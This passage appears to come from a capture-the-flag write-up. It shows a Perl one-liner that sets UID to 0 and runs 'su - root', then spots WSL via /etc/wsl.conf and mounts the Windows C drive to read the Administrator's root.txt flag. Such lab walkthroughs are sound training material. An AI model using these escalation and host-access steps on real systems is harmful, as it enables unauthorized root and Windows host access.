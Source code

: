 ```bash
perl -MEnglish -e '$UID = 0; $ENV{PATH} = "/bin:/usr/bin:/sbin:/usr/sbin"; exec "su - root"'
```

Notice that there is a file `/etc/wsl.conf`, which indicates that we are in wsl.

We can [mount the C drive](https://www.public-health.uiowa.edu/it/support/kb48568/) with `mount -t drvfs C: /mnt/c`

From here, we can access `root.txt` in `C:\Users\Administrator\Desktop`
